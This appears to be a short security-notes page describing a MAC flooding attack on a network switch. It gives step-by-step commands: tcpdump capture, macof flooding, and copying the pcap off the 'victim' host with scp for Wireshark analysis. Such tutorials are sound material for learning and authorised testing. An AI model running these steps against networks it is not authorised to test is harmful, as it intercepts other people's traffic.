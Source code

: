 ```yaml
---
title: MAC Flooding Attack
description: It is a technique that compromises the security of network switches.
tags:
    - Network
refs:
date: 2022-11-20
draft: false
---
```


## Attack Flow

1. **Open Two SSH Sessions**

    Start the SSH session 1 in terminal 1.

    ```sh
    ssh victim@<target-ip>
    ```

    Start the SSH session 2 in terminal 2.

2. **Flood the Switch and Capturing the Traffic**

    In the session 1, start **tcpdump** and keep it running.

    ```sh
    tcpdump -A -i eth1 -w /tmp/tcpdump.pcap
    ```

    In the session 2, start flooding the switch (here "eth1" interface).

    ```sh
    macof -i eth1
    ```

    After about 30 seconds, stop **macof** and **tcpdump**.

3. **Investigate the Captured Traffic**

    In your local machine, transfer the dumped file named "/tmp/tcpdump.pcap" from the target machine to your local machine.

    ```sh
    scp victim@<target-ip>:/tmp/tcpdump.pcap .
    ```

    Investigate this file using Wireshark

    ```sh
    wireshark ./tcpdump.pcap
    ```
